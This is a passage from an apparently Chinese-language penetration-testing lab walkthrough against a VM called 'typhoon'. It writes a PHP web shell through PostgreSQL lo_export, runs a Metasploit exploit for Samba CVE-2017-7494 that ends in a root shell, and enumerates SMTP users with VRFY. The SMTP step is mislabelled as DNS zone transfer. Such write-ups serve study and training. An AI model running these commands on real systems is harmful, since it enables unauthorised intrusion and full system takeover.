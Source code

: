 select lo_export(998,'/var/www/html/dayu.php');

http://192.168.253.135/shell.php




--------------------------------------------
--------------------------------------------
11、攻击路径十：Samba远程代码执行漏洞（CVE-2017-7494）445端口

Samba 是在 Linux 和 UNIX 系统上实现 SMB 协议的一个软件，不少 IoT 设备也使用了 Samba。2017年5月24日 Samba 发布了 4.6.4 版本，修复了一个严重的远程代码执行漏洞，漏洞编号 CVE-2017-7494，攻击者可以利用该漏洞在目标服务器上执行任意代码。

漏洞利用条件：
1. 服务端共享目录有访问权限。
2. 需要对服务器上写一个恶意文件并知道该文件的物理路径。
影响版本：
Samba 3.5+  <4.6.4  <4.5.10  <4.4.14
注：可使用’smbd -V’命令查看 Samba 的版本信息。


search CVE-2017-7494
use exploit/linux/samba/is_known_pipename
set rhosts 192.168.253.135
run

[*] Command shell session 4 opened (192.168.253.138:43849 -> 192.168.253.135:445) at 2022-07-21 03:50:47 -0400

id
uid=0(root) gid=0(root) groups=0(root)
直接获取root权限！！



--------------------------------------------
--------------------------------------------
12、攻击路径十一：25端口DNS漏洞利用

尝试目标DNS区域传送攻击！


└─$ telnet 192.168.253.135 25                                                                                                                     1 ⨯
Trying 192.168.253.135...
Connected to localhost.
Escape character is '^]'.
220 typhoon ESMTP Postfix (Ubuntu)
EHLO kali.local       -----客户端为标识自己的身份而发送的命令（通常带域名）
250-typhoon
250-PIPELINING
250-SIZE 10240000
250-VRFY
250-ETRN
250-STARTTLS
250-ENHANCEDSTATUSCODES
250-8BITMIME
250 DSN
VRFY root@typhoon.local      ----确认在邮件传递过程中可以使用邮箱
252 2.0.0 root@typhoon.local
